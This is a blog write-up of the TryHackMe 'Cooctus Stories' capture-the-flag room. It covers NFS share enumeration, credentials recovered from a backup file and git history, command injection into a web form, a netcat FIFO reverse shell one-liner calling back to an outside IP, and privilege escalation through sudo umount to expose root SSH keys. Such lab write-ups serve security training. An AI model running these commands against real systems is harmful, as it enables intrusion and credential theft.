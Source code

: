 ```yaml
---
layout: post
title: "Cooctus Stories | THM "
date: 2021-12-19 17:17:00 -0000
categories: CTF THM
---
```


<h1> Cooctus Stories | THM </h1> 
12 - 19 - 21 

10.10.118.63

<h2> nmap </h2> 
22/tcp   open  ssh
111/tcp  open  rpcbind
2049/tcp open  nfs
8080/tcp open  http-proxy
35521/tcp open  nlockmgr 1-4 (RPC #100021)
47325/tcp open  mountd   1-3 (RPC #100005)
53991/tcp open  mountd   1-3 (RPC #100005)
58267/tcp open  mountd   1-3 (RPC #100005)

<h2> Web </h2>

gobuster 
/login 
/cat 

<h2> NFS </h2> 

Theres nfs running on the server so that means that there should be a share that is up and running. 

showmount -e 10.10.118.63
Export list for 10.10.118.63:
/var/nfs/general *

sudo mount -t nfs 10.10.118.63:/var/nfs/general /tmp/nfs -nolock
* if you get an error here, try rebooting your device 

theres a file called credentials.bak in the share and we have either a username or a password here. 
paradoxial.test
ShibaPretzel79

we have bypassed the login. 

<h2> Post Login </h2>

We have a form where we can post something and we need to escape it to read credentials or post a file.

Its a post method and returns your input in a body tag after submitting. 

ping seemed to work, so lets just keep trying reverse shell till we get one that works. 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f the classic works!  

So we are in now and can grab the first flag. Then, if we read the crontab, there is an interesting script running from the user szymex. 


#!/usr/bin/python3
import os
import random

def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc


x = random.randint(300,700)
y = random.randint(0,255)
z = random.randint(0,1000)

message = "Approximate location of an upcoming Dr.Pepper shipment found:"
coords = "Coordinates: X: {x}, Y: {y}, Z: {z}".format(x=x, y=y, z=z)

with open('/home/szymex/mysupersecretpassword.cat', 'r') as f:
    line = f.readline().rstrip("\n")
    enc_pw = encode(line)
    if enc_pw == "pureelpbxr":
        os.system("wall -g paradox " + message)
        os.system("wall -g paradox " + coords)

As you can see here, there is a password encoded in the script and it looks like it is doing a ROT to it. As ord takes the numerical value and translates it into a character. When the script is adding numbers together it is just changing the position. If we fire up cyberchef, we can get that password quickly. 

<h2> Szymex </h2> 

If we read the note in tux's directory, it seems like there are a series of challenges we must beat to get his password. 

tuxling_1  
First challenge has a bunch of c code that has been set-up with define statements. There are only 3 we need, f96050ad61. Thats key 1 

tuxling_2  
We have to find this one first.  
find / -type d -name tuxling_2 2>/dev/null
/media/tuxling_2
gpg import and decrypt! - 6eaf62818d  

tuxling_3 
This one is just reading the note - 637b56db1552

all together - f96050ad616eaf62818d637b56db1552
tuxykitty

<h2> tux </h2>

We can run a command as varg through sudo -l. Its a python script so lets see what it can do.  It asks for a password to login. Hm we cant get any further.

If we look in his directory again we can find that there is a hidden git folder. We can read some of the comments through cat but not all. If we run git show - we get the entire log and we can see a hard coded user and pass 
varg:slowroastpork

<h2> root </h2> 

Varg is allowed to run (root) NOPASSWD: /bin/umount. So how do we exploit umount to get root? After reseraching and reading other writeups I found that you can list the mounts and then look for abnormal mounts. 

We find an abornmal mount at /opt/coocktusos. if we unmount it, theres a root flag! but its a fake.However, there are ssh keys we can exploit. Copy them over to the attacking machine and then ssh back in as root for the flag.txt

This was a great room that took me around 3 hours  to crack! Very grateful for the other writeups for helping me with the last root esc. 




